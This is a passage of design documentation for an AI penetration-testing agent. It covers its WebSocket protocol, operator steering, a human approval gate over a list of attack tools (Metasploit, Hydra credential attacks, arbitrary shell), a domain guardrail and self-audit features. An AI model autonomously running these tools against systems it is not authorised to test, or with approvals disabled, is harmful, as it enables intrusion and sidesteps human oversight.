This chapter describes *how the operator and the agent talk to each other in real time*. Everything the operator sees in the chat, the agent's thinking, every tool starting and completing, every output chunk streaming, every approval dialog appearing, every fireteam member surfacing, is the rendering of an event flowing over a single bidirectional WebSocket connection. The same connection carries operator commands the other way: questions, approvals, guidance messages, tool confirmations, stop requests, resume requests, and per-tool cancellations.

The protocol has two strict design goals. **Liveness without polling**, the frontend never asks "what's happening?"; the backend pushes events as they occur, so the chat surface feels live token-by-token. **Persistence and replay**, every event is also written to a `ChatMessage` row in PostgreSQL, so a browser refresh, a network blip, or even a different operator opening the session later will see the exact same timeline reconstructed from the database. The `StreamingCallback` interface is the boundary that decouples the agent's internal node logic from the transport: nodes call abstract methods like `on_thinking()` or `on_tool_complete()` and the WebSocket layer handles framing, deduplication, persistence, and the connection-replacement edge cases (e.g. operator reopens the same session in a new tab).

The protocol carries roughly 30 outbound event types and 10 inbound message types, all defined as enums in [`agentic/websocket_api.py`](../agentic/websocket_api.py). The sections below cover the message protocol itself, the streaming event flow with its strict ordering rules (a previous tool's `tool_complete` must fire before the next iteration's `thinking`, which must fire before the next `tool_start`, otherwise the frontend reducer mis-pairs running tools with completion events), the wave execution flow for parallel tool plans, and the three operator-control mechanisms that share this transport: guidance messages for steering a running agent, stop/resume for pausing whole sessions, and per-tool stop for killing individual long-running commands.

### Message Protocol

```mermaid
flowchart LR
    subgraph Client["Client → Server"]
        INIT["init<br/>user_id, project_id, session_id"]
        QUERY["query<br/>question"]
        APPROVAL["approval<br/>decision, modification"]
        ANSWER["answer<br/>answer"]
        TOOL_CONF["tool_confirmation<br/>decision, modifications?"]
        FT_MEM_CONF["fireteam_member_confirmation<br/>wave_id, member_id, decision"]
        TOOL_STOP_IN["tool_stop<br/>tool_name, wave_id?, step_index?"]
        GUIDANCE["guidance<br/>message"]
        SKILL_INJECT["skill_inject<br/>skill_id, skill_name, content"]
        STOP["stop"]
        RESUME["resume"]
        PING["ping"]
    end

    subgraph Server["Server → Client"]
        CONNECTED[connected]
        THINKING["thinking<br/>iteration, phase, thought, reasoning"]
        THINKING_CHUNK["thinking_chunk<br/>chunk, partial reasoning stream"]
        DEEP_THINK["deep_think<br/>trigger_reason, analysis, iteration, phase"]
        FILE_READY["file_ready<br/>path, name, size, type, source_step"]
        TOOL_START["tool_start<br/>tool_name, tool_args, wave_id?"]
        TOOL_CHUNK["tool_output_chunk<br/>tool_name, chunk, is_final, wave_id?"]
        TOOL_COMPLETE["tool_complete<br/>tool_name, success, output_summary,<br/>actionable_findings, recommended_next_steps, wave_id?"]
        PLAN_START["plan_start<br/>wave_id, plan_rationale, tool_count, tools"]
        PLAN_COMPLETE_EV["plan_complete<br/>wave_id, total_steps, successful, failed"]
        PLAN_ANALYSIS["plan_analysis<br/>wave_id, interpretation,<br/>actionable_findings, recommended_next_steps"]
        PHASE_UPDATE["phase_update<br/>current_phase, iteration_count, attack_path_type"]
        TODO_UPDATE["todo_update<br/>todo_list"]
        APPROVAL_REQ["approval_request<br/>from_phase, to_phase, reason, risks"]
        QUESTION_REQ["question_request<br/>question, context, format, options"]
        TOOL_CONF_REQ["tool_confirmation_request<br/>mode, tools, reasoning?, phase?, iteration?"]
        FT_DEPLOYED["fireteam_deployed<br/>wave_id, members[]"]
        FT_MEM_STARTED["fireteam_member_started<br/>wave_id, member_id"]
        FT_THINK["fireteam_thinking<br/>wave_id, member_id, iteration, thought"]
        FT_TOOL["fireteam_tool_start / chunk / complete<br/>wave_id, member_id, step_index?, tool_name, ..."]
        FT_PLAN["fireteam_plan_start / complete<br/>wave_id, member_id, sub_wave_id, ..."]
        FT_AWAIT["fireteam_member_awaiting_confirmation<br/>wave_id, member_id, pending_tools"]
        FT_MEM_DONE["fireteam_member_completed<br/>wave_id, member_id, status, stats"]
        FT_DONE["fireteam_completed<br/>wave_id, status_counts"]
        RESPONSE["response<br/>answer, task_complete"]
        EXEC_STEP["execution_step<br/>step summary"]
        TASK_DONE["task_complete<br/>message, final_phase"]
        GUIDANCE_ACK["guidance_ack<br/>message, queue_position"]
        SKILL_INJECT_ACK["skill_inject_ack<br/>skill_id, skill_name, queue_position"]
        STOPPED["stopped<br/>message, iteration, phase"]
        ERROR["error<br/>message, recoverable"]
    end
```

### Streaming Event Flow

The think node emits events in a specific order to maintain correct timeline rendering in the frontend. When the think node processes both a completed previous step and a new decision, events are emitted as: `tool_complete` (previous) -> `thinking` (new) -> `tool_start` (new).



### Wave Execution Events

When the LLM emits `action: "plan_tools"`, multiple tools run concurrently inside a single agent iteration and the WebSocket stream carries a different event sequence than for sequential tool calls: a `plan_start` opens the wave, each parallel tool emits its own interleaved `tool_start` / `tool_output_chunk` / `tool_complete` events tagged with the same `wave_id`, then `plan_complete` closes the wave, and finally `plan_analysis` carries the combined LLM analysis once the next think iteration runs. The frontend renders the wave as a single grouped `PlanWaveCard` rather than as N independent tool cards.

The full mechanics of waves, when the agent chooses them, how `asyncio.gather` runs the steps, the LLM decision schema, mutex protection for singletons, and how Wave Execution compares to other AI pentesters, live in the dedicated [Wave Execution chapter](#wave-execution-parallel-tool-plans).

---

### Guidance Messages

Users can send **guidance messages** while the agent is working (thinking or executing tools). These messages steer/correct the agent's current objective without creating new tasks.



**How it works:**

1. **Frontend**: When `isLoading=true`, the chat input stays enabled. Sending a message routes to `sendGuidance()` instead of `sendQuery()`.
2. **WebSocket API**: `handle_guidance` puts the message into the connection's `asyncio.Queue` and sends back a `guidance_ack` with the queue position.
3. **Orchestrator**: At the start of each `_think_node` invocation, pending guidance messages are drained from the queue and injected into the system prompt as a numbered `## USER GUIDANCE` section.
4. **LLM**: The agent sees the guidance and adjusts its plan accordingly in the next decision.

**Edge cases:**
- Multiple guidance messages before the next think step are all collected and injected as a numbered list
- Guidance sent during tool execution is queued and consumed in the next think step
- Stale guidance from previous queries is drained at the start of each new `handle_query`

### Chat Skill Injection

Users can inject **Chat Skills** (on-demand reference docs) into the agent's context via the `/skill` command or the skill picker button in the chat. Chat Skills provide tactical knowledge (tool playbooks, vulnerability guides, framework notes) without affecting classification or phase routing.

**How it works:**

1. **Frontend**: User types `/skill ssrf` or clicks a skill in the picker. The `activateSkill()` function fetches the skill content from `/api/users/{userId}/chat-skills/{skillId}` and sets the `activeSkill` state.
2. **If agent is running** (`isLoading=true`): A `SKILL_INJECT` WebSocket message is sent with `{skill_id, skill_name, content}`. The backend `handle_skill_inject` formats the content as `[CHAT SKILL: <name>]\n\n<content>` and pushes it into the `guidance_queue`. The agent sees it in the next think step alongside any guidance messages.
3. **If agent is NOT running**: The skill content is prepended to the next user query as `[Chat Skill Context]\n<content>\n\n[User Query]\n<question>`.
4. **Persistence**: The active skill stays active across all subsequent messages until changed (`/skill <other>`) or removed (`/skill remove` or clicking the X badge). On each new message, the skill context is re-injected.

**Key difference from Agent Skills**: Chat Skills do not participate in the Intent Router classification. They are injected as-is (no phase awareness, no tool routing). Agent Skills drive the agent's workflow end-to-end; Chat Skills provide supplementary reference material.

> For full details, see the [Chat Skills wiki page](https://github.com/samugit83/redamon/wiki/Chat-Skills).

### Stop & Resume Execution

Users can **stop** the agent mid-execution and **resume** from the last LangGraph checkpoint.



**How it works:**

1. **Background tasks**: All orchestrator invocations (`handle_query`, `handle_approval`, `handle_answer`) run as `asyncio.create_task()` background tasks, keeping the WebSocket receive loop free for guidance/stop/resume messages.
2. **Stop**: Cancels the active `asyncio.Task`. The `CancelledError` is caught gracefully. LangGraph's `MemorySaver` has already checkpointed state at the last node boundary.
3. **Resume**: Calls `resume_execution_with_streaming()` which re-invokes `graph.astream({}, config)` with empty input. The graph resumes from the checkpoint, re-entering `initialize → think` with the preserved state.
4. **Frontend**: The stop button (red square) appears during loading. After stop, it becomes a resume button (green play). The input is disabled while stopped.

### Per-Tool Stop

Beyond the session-level stop, the operator can cancel a **single running tool** without halting the entire agent. The frontend per-tool stop button on a running `ToolExecutionCard` (or a tool inside a wave / fireteam member panel) sends:

```json
{ "type": "tool_stop", "payload": { "tool_name": "execute_katana", "wave_id": "...", "step_index": 2 } }
```

`WebSocketManager.cancel_tool_task` looks up the registered `asyncio.Task` for that exact tool invocation by composite key `f"{session_key}|{wave_id or '__standalone__'}|{step_index or -1}|{tool_name}"`, calls `task.cancel()`, and the executor catches `CancelledError`, marks the tool as failed with `error_message="cancelled by operator"`, and routes back to think. The agent reasons about the cancellation in its next iteration and chooses an alternative.

`wave_id` and `step_index` are optional, omit both to cancel a standalone tool. Provide them to disambiguate when the same tool name is running in multiple slots (e.g. two `execute_curl` calls inside the same wave).

| Tool task registry | Tracks | Lifecycle |
|---|---|---|
| `WebSocketManager._tool_tasks` | `{composite_key: asyncio.Task}` | `register_tool_task` on tool start, `unregister_tool_task` on completion |

---

## Tool Confirmation Gate

The Tool Confirmation feature provides a **per-tool human-in-the-loop safety gate** that pauses the agent before executing dangerous tools. This is distinct from the phase-level approval gates (exploitation/post-exploitation transitions), it operates at the individual tool invocation level.

### Dangerous Tools

The following tools require manual confirmation when `REQUIRE_TOOL_CONFIRMATION` is enabled (default: `true`):

| Tool | Description |
|------|-------------|
| `execute_nmap` | Deep network scanning, service detection, NSE scripts |
| `execute_naabu` | Fast port scanning |
| `execute_nuclei` | CVE verification & exploitation via YAML templates |
| `execute_curl` | HTTP requests to target |
| `metasploit_console` | Exploitation framework commands |
| `msf_restart` | Metasploit service restart |
| `kali_shell` | Arbitrary command execution in Kali sandbox |
| `execute_code` | Python/shell code execution |
| `execute_hydra` | Credential testing via THC Hydra |
| `execute_wpscan` | WordPress vulnerability scanning (plugins, themes, users, misconfigurations) |

The dangerous tools list is defined in `project_settings.py` as `DANGEROUS_TOOLS` (a `frozenset`).

### Confirmation Modes

| Mode | Trigger | UI Presentation |
|------|---------|-----------------|
| **Single** | Agent decides `action: "use_tool"` and the tool is in `DANGEROUS_TOOLS` | Inline `ToolExecutionCard` with Allow/Deny buttons |
| **Plan** | Agent decides `action: "plan_tools"` (parallel wave) and **any** step is in `DANGEROUS_TOOLS` | `PlanWaveCard` showing all dangerous tools in the wave with Allow/Deny buttons |

In **plan mode**, only the dangerous tools within the wave are surfaced for confirmation, safe tools are listed but don't block execution.

#### Tool Mutex Groups (Wave & Fireteam Concurrency Safety)

Some tools have **singleton state inside the Kali sandbox** and cannot run concurrently, even from different agents in the same fireteam wave or different steps in the same `plan_tools` wave. These are declared in `TOOL_MUTEX_GROUPS` in [agentic/project_settings.py](../agentic/project_settings.py):

```python
TOOL_MUTEX_GROUPS = {
    'metasploit': frozenset({'metasploit_console', 'msf_restart'}),
}
```

The deploy-time validator on `fireteam_deploy_node` rejects any plan where two members claim tools in the same group. For `execute_plan` waves, the orchestrator serializes mutex-grouped steps inside the otherwise-parallel `asyncio.gather`. Future singletons (Playwright `navigate`, `/tmp/` writers) are tracked as deferred items.

### Confirmation Flow

```mermaid
sequenceDiagram
    participant A as Agent (Think Node)
    participant O as Orchestrator
    participant WS as WebSocket
    participant U as User (Frontend)

    A->>O: Decision: use_tool "execute_nmap"
    O->>O: Check REQUIRE_TOOL_CONFIRMATION setting
    O->>O: Check tool_name in DANGEROUS_TOOLS

    alt Tool Confirmation Required
        O->>O: Store tool_confirmation_pending (mode=single)
        O->>O: Set awaiting_tool_confirmation = true
        O->>WS: Send tool_confirmation_request
        WS->>U: Display inline Allow/Deny on ToolExecutionCard

        Note over O,U: Graph pauses at await_tool_confirmation (END)

        U->>WS: User decision (approve/modify/reject)
        WS->>O: Resume with tool_confirmation_response

        alt User Approved
            O->>O: Clear confirmation state
            O->>O: Route to execute_tool
            O->>A: Tool executes normally
        else User Modified
            O->>O: Patch tool_args with modifications
            O->>O: Route to execute_tool with updated args
            O->>A: Tool executes with modified arguments
        else User Rejected
            O->>O: Add rejection to execution_trace
            O->>O: Inject HumanMessage explaining rejection
            O->>O: Route to think node
            O->>A: Agent must choose alternative approach
        end
    else Not a Dangerous Tool
        O->>O: Proceed directly to execute_tool
    end
```

### Plan Mode Confirmation Flow

When the agent plans a parallel wave containing dangerous tools:

```mermaid
sequenceDiagram
    participant A as Agent (Think Node)
    participant O as Orchestrator
    participant WS as WebSocket
    participant U as User (Frontend)

    A->>O: Decision: plan_tools [nmap, query_graph, nuclei]
    O->>O: Filter dangerous tools: [nmap, nuclei]

    O->>O: Store tool_confirmation_pending (mode=plan, tools=[nmap, nuclei])
    O->>O: Set awaiting_tool_confirmation = true
    O->>WS: Send tool_confirmation_request (plan mode)
    WS->>U: Display PlanWaveCard with Allow/Deny

    Note over O,U: Graph pauses at await_tool_confirmation (END)

    U->>WS: approve
    WS->>O: Resume with decision=approve

    O->>O: Route to execute_plan
    Note over O: All tools in the wave (including safe ones) execute in parallel
```

### Hard Guardrail (Non-Disableable)

Independent of the configurable tool confirmation, a **deterministic hard guardrail** permanently blocks government, military, educational, and international organization domains. This guardrail:

- **Cannot be toggled off**, it runs regardless of project settings
- Is implemented identically in Python (`agentic/hard_guardrail.py`) and TypeScript (`webapp/src/lib/hard-guardrail.ts`)
- Blocks by TLD suffix patterns (`.gov`, `.mil`, `.edu`, `.int`, and country-code variants like `.gov.uk`, `.ac.jp`)
- Blocks by exact domain match for 300+ intergovernmental organizations on generic TLDs (e.g., `un.org`, `nato.int`, `europa.eu`, `worldbank.org`)
- Provides defense-in-depth alongside the soft LLM-based guardrail

### Frontend Chat Integration

When a tool confirmation request arrives, the frontend:

1. Sets `awaitingToolConfirmation = true`, disables the chat input and send button
2. Renders an inline card in the `AgentTimeline`:
   - **Single mode**: `ToolExecutionCard` with `status: "pending_approval"`, showing tool name, arguments, and **Allow / Deny** buttons
   - **Plan mode**: `PlanWaveCard` with `status: "pending_approval"`, listing all dangerous tools in the wave with **Allow / Deny** buttons
3. On user action, calls `sendToolConfirmation(decision)` via the WebSocket hook
4. The card transitions to `running` (approved) or `error` (rejected) status
5. Chat input re-enables and the agent continues

When `REQUIRE_TOOL_CONFIRMATION` is disabled, a warning badge (orange triangle) appears in the chat header to indicate dangerous tools will execute without manual approval.

### Conversation Restore

Tool confirmation state is persisted and restored correctly when loading conversation history:

- `tool_confirmation_request` and `tool_confirmation_response` messages are saved to the database
- On restore, if the last `tool_confirmation_request` has no subsequent work (no `thinking`/`tool_start` events after it), the UI re-enters the awaiting state with Allow/Deny buttons active
- This ensures sessions interrupted mid-confirmation can be resumed seamlessly

### Configuration

| Setting | Default | Description |
|---------|---------|-------------|
| `REQUIRE_TOOL_CONFIRMATION` | `true` | Enable/disable tool-level confirmation gate |
| `DANGEROUS_TOOLS` | *(see table above)* | Set of tool names that trigger confirmation (not user-configurable, defined in code) |

Toggle in the webapp: **Project Settings → Agent Behaviour → Approval Gates → Require Tool Confirmation**.

When disabled, an autonomous operation risk warning banner appears in the Approval Gates section, alerting the user that dangerous tools will execute without human approval.

### Fireteam Members Use a Different Confirmation Channel

Dangerous tools requested by a **fireteam member** do NOT use `tool_confirmation_request` / `tool_confirmation`. They use the per-member channel `fireteam_member_awaiting_confirmation` / `fireteam_member_confirmation`, which parks each member on its own `asyncio.Event` so N members can be awaiting decisions simultaneously without serializing. The safety contract is byte-identical (same `DANGEROUS_TOOLS` set, same approve/reject/timeout semantics), only the transport differs. See [Fireteam, Per-Member Dangerous-Tool Confirmation](#per-member-dangerous-tool-confirmation) for the full flow.

---

## Deep Think (Strategic Reasoning Pre-Step)

**Deep Think** is a structured strategic-reasoning LLM call that runs **before** the normal `think` decision when one of four conditions fires. It produces a markdown analysis (Situation / Attack Vectors / Approach / Priority / Risks) that is injected into the very next think prompt and into all subsequent prompts for that session via the `DEEP_THINK_SECTION` placeholder.

It is a deliberate contrast to the regular `think_node` LLM call:

| | Regular think | Deep Think pre-step |
|---|---|---|
| Output schema | `LLMDecision` (action + tool args + inline analysis) | `DeepThinkResult` (situation, vectors, approach, priority, risks) |
| Output usage | Routes to a node (`execute_tool` / `execute_plan` / etc.) | String, prepended to next think's system prompt |
| Frequency | Every iteration | Only when triggered (typically 2-4 times per session) |
| Token cost | Tracked per-turn | Tracked separately, added to per-turn totals |
| Failure mode | Hard error | Logged as warning, session continues without it |

### When Deep Think Fires

Implemented in [agentic/orchestrator_helpers/nodes/think_node.py](../agentic/orchestrator_helpers/nodes/think_node.py) (lines 107-226). Conditions are checked in this order, first match wins:

1. **First iteration of session**, `iteration == 1`. Trigger reason: `"First iteration, establishing initial strategy"`. Always runs once at session start (when `DEEP_THINK_ENABLED=true`).
2. **Phase transition just happened**, the previous step bumped `current_phase`. Trigger reason: `"Phase transition to <new_phase>, re-evaluating strategy"`.
3. **Unproductive-streak detected**, scans the last `PRODUCTIVITY_AUDIT_WINDOW` (default 6) execution_trace steps and counts each step that meets EITHER of two criteria: (a) the keyword-failure heuristic, `success=false` OR the output's first 500 chars contain `"failed"`, `"error"`, or `"exploit completed, but no session"`; OR (b) the LLM-emitted productivity verdict is `no_progress` / `duplicate` / `blocked` (or `new_information_gained=false`). When the count reaches `UNPRODUCTIVE_STREAK_THRESHOLD` (default 3), the trigger fires. Trigger reason: `"Unproductive streak detected (N/W recent steps yielded no_progress / duplicate / blocked / failure), pivoting strategy"`. This is a strict superset of the legacy keyword-only failure-loop check, it catches the *successful but useless* case (HTTP 200 with empty body, identical fuzzing fingerprints, stable 404s) that the keyword check missed.
4. **LLM self-request**, the previous `LLMDecision` set `need_deep_think=true`. The base prompt's `DEEP_THINK_SELF_REQUEST_INSTRUCTION` tells the LLM it can opt in if it feels stuck. Trigger reason: `"Agent self-assessed stagnation, strategic re-evaluation requested"`.

### Output Schema

```python
class DeepThinkResult(BaseModel):
    situation_assessment: str          # Current state summary
    attack_vectors_identified: List[str]  # All possible attack vectors
    recommended_approach: str          # Chosen approach and rationale
    priority_order: List[str]          # Ordered action steps
    risks_and_mitigations: str         # Potential risks and how to handle them
```

The result is rendered as a single markdown block:

```
**Situation:** <situation_assessment>

**Attack Vectors:** vec1, vec2, vec3

**Approach:** <recommended_approach>

**Priority:** step1 → step2 → step3

**Risks:** <risks_and_mitigations>
```

This block is stored in `state["deep_think_result"]` and is **persistent**: once produced, every subsequent think prompt re-injects it via `DEEP_THINK_SECTION.format(deep_think_result=...)`. A new Deep Think trigger overwrites the previous result.

### Flow Diagram

```mermaid
sequenceDiagram
    participant T as think_node entry
    participant DT as Deep Think LLM call
    participant L as Main think LLM call
    participant CB as StreamingCallback
    participant UI as Browser

    T->>T: Check 4 trigger conditions
    alt Trigger fires
        T->>T: Build DEEP_THINK_PROMPT (phase, target_info, chain_context,, todo_list, RoE section, session_config, trigger_reason)
        T->>DT: llm.ainvoke (SystemMessage + HumanMessage)
        DT-->>T: DeepThinkResult JSON
        T->>T: Parse + render as markdown block
        T->>T: Set state.deep_think_result + deep_think_triggered=True
        T->>CB: on_deep_think(trigger_reason, analysis, iteration, phase)
        CB-->>UI: DEEP_THINK event {trigger_reason, analysis}
    else No trigger
        T->>T: Reuse state.deep_think_result if present
    end

    T->>T: Build REACT_SYSTEM_PROMPT
    alt deep_think_result exists
        T->>T: Append DEEP_THINK_SECTION to system prompt
    end
    T->>T: Append DEEP_THINK_SELF_REQUEST_INSTRUCTION (if enabled)
    T->>L: llm.ainvoke main think
    L-->>T: LLMDecision (action + need_deep_think flag)
    T->>T: Persist need_deep_think for next iteration
```

### Failure Handling

The Deep Think call is wrapped in a broad `try / except`. If the LLM returns malformed JSON, raises a rate-limit, or the parse fails, the warning is logged (`[user/project/session] Deep Think failed (non-blocking): <e>`) and the main think continues without the analysis. Deep Think never blocks the agent.

### Token Accounting

Deep Think tokens are accumulated separately into `_dt_in` / `_dt_out` and added to the same per-turn delta the main think reports. The `tokens_used` counter on `AgentState` therefore reflects DeepThink + main think for any iteration where it ran. There is no separate "DeepThink-only" counter.

### Settings

| Setting | Default | Purpose |
|---|---|---|
| `DEEP_THINK_ENABLED` | `true` | Master switch. When off, the four triggers and the self-request instruction are both skipped, and `need_deep_think` from the LLM is forced to `false` |

When disabled, the entire pre-step block is bypassed and the system runs in pure single-call ReAct mode.

### WebSocket Event

| Event | Direction | Payload |
|---|---|---|
| `deep_think` | server -> client | `{trigger_reason, analysis, iteration, phase}` |

The frontend renders this as a distinct `DeepThinkItem` in the AgentTimeline (different from a regular thinking bubble) so the operator can see *why* the agent paused to re-strategize.

### Why Not a Separate Graph Node?

Deep Think runs *inside* `think_node` rather than as its own LangGraph node because:

- It's an **augmentation** of the next think, not a routing decision. Splitting it into a node would force a second routing edge (`deep_think -> think`) that adds nothing.
- The result must be available to the same think iteration that triggered it. A separate node would require an extra state round-trip.
- Failure handling stays local, a bad Deep Think can degrade silently inside one node body.

The trade-off: harder to instrument as a discrete node in LangGraph traces. Mitigation: the dedicated WebSocket event and the `Deep Think triggered: <reason>` log line provide the observability hook.

---

## Productivity Verdict & Unproductive-Streak Loop Detector

The **productivity verdict** is the agent's self-honesty signal about whether the last tool call actually moved the engagement forward. Every think iteration emits a `ProductivityVerdict` object as part of `output_analysis`; the orchestrator audits the claim against actual state delta, downgrades dishonest claims, and aggregates unproductive steps over a sliding window to drive Deep Think and prompt-level pivot warnings. It replaces a previous keyword-only "failure loop" detector that only caught steps whose output literally contained `"failed"` / `"error"`, missing every *successful but useless* call (HTTP 200 with empty body, identical fuzzing fingerprints, stable 404s, polite WAF HTML, repeated CVE probes against patched targets).

### Verdict Schema

The schema lives in [agentic/state.py](../agentic/state.py) as `ProductivityVerdict`, embedded in `OutputAnalysisInline.productivity`:

```python
class ProductivityVerdict(BaseModel):
    verdict: Literal["new_info", "confirmation", "no_progress", "blocked", "duplicate"] = "new_info"
    new_information_gained: bool = True
    what_was_new: str = ""             # One sentence; empty if nothing new.
    should_repeat_similar_call: bool = False
    rationale: str = ""                # One sentence citing specific evidence.
```

The closed enum prevents free-form dodging ("partial success", "informative-but-known"). The required `what_was_new` field forces the model to cite a specific new fact, an empty string is itself a signal that there was no new information. Verdict meanings:

| Verdict | Meaning |
|---|---|
| `new_info` | Output revealed something not already in the findings list. `what_was_new` must cite the specific fact. |
| `confirmation` | Already suspected; this call only confirms. Acceptable once; never for repeats. |
| `no_progress` | Call succeeded but yielded zero usable information. |
| `blocked` | WAF / 401 / 403 / captcha / rate-limit / auth wall. |
| `duplicate` | Output essentially identical to a recent call with similar args. |

### Honesty Audit (State-Delta Cross-Check)

After parsing the LLM's `output_analysis`, the orchestrator runs `audit_productivity_claim()` (in [agentic/orchestrator_helpers/productivity.py](../agentic/orchestrator_helpers/productivity.py)) against the *actual* state delta for the same iteration. The audit checks whether the engagement state grew during the iteration:

- Did `chain_findings` get a new entry?
- Did `extracted_info` populate any of `ports` / `services` / `technologies` / `vulnerabilities` / `credentials` / `sessions`?
- Did `actionable_findings` produce anything?
- Did an `exploit_succeeded` event with details land?

If `claims_new == true` but **no** state actually grew, the audit returns a one-line discrepancy string and the orchestrator calls `downgrade_verdict_to_no_progress()`, which preserves the original verdict in `_original_verdict`, rewrites `verdict` to `no_progress`, sets `new_information_gained=false`, and records the `_downgrade_reason`. The reason is then echoed back to the LLM in the next prompt under a `## Prior Productivity Claim Was Downgraded` block so the model sees its own claim being corrected.

The audit runs in three call sites: the single-tool path in [think_node.py](../agentic/orchestrator_helpers/nodes/think_node.py), the wave path (one verdict per wave, replicated onto every wave step so the loop detector can read it from any single step in isolation), and the fireteam member path in [fireteam_member_think_node.py](../agentic/orchestrator_helpers/nodes/fireteam_member_think_node.py).

### Same-Pattern Fingerprint Audit

When 3 or more recent calls in the audit window share the *same normalized tool-and-args pattern*, `build_productivity_audit_section()` injects a prompt block listing those calls with their truncated output fingerprints. Pattern normalization (`_normalize_args_pattern()`) collapses integer IDs to `<int>`, long hex tokens to `<hex>`, IPv4 to `<ip>`, and query-string values to `=<val>`, so `/order/300500` and `/order/300600` are the same pattern. Output fingerprinting (`_output_fingerprint()`) strips ISO timestamps, UUIDs, and long numeric tokens, then sha256-truncates to 8 hex chars, two outputs with the same fingerprint are functionally identical.

The injected block looks like this:

```
## Productivity Audit (compare against your own recent calls)

Recent same-pattern tool calls (fp = sha256-truncated fingerprint of normalized
response body — same fp means functionally identical output):

  [step 14] execute_curl {"url":"https://target/api/users/<int>"}  812B  fp=a7c3...
  [step 15] execute_curl {"url":"https://target/api/users/<int>"}  812B  fp=a7c3...
  [step 16] execute_curl {"url":"https://target/api/users/<int>"}  812B  fp=a7c3...

ALL identical fingerprints — definitely looping.

Decision rules:
  - If 3+ recent same-pattern calls share the same fingerprint AND you have no
    new fact to cite in `what_was_new` → verdict MUST be `duplicate` or
    `no_progress`. Marking it `confirmation` is dishonest.
  - If the call hit 401/403/captcha/WAF → verdict is `blocked`.
  - If you can cite ONE specific new fact in `what_was_new` that is not already
    in your findings list → verdict is `new_info`.
```

The block is the mechanism that keeps the LLM verdict honest under pressure: claiming "confirmation" four times in a row becomes visibly dishonest because the model sees its own fingerprint history.

### Loop Detector Integration

`is_unproductive(step)` is the single read-side helper. It returns `True` when `verdict in {"no_progress", "duplicate", "blocked"}` or `new_information_gained == false`. The orchestrator's loop detector ORs this with the legacy keyword check, so a step that lacks a verdict (legacy data, parse failure) still falls back to keyword behavior, productive-by-default.

Two thresholds, both settings:

| Setting | Default | Purpose |
|---|---|---|
| `PRODUCTIVITY_AUDIT_WINDOW` | `6` | How many recent execution-trace steps the audit considers |
| `UNPRODUCTIVE_STREAK_THRESHOLD` | `3` | Count of unproductive steps in the window that triggers the pivot |

When the count crosses the threshold, two side effects fire in the same `think_node` iteration:

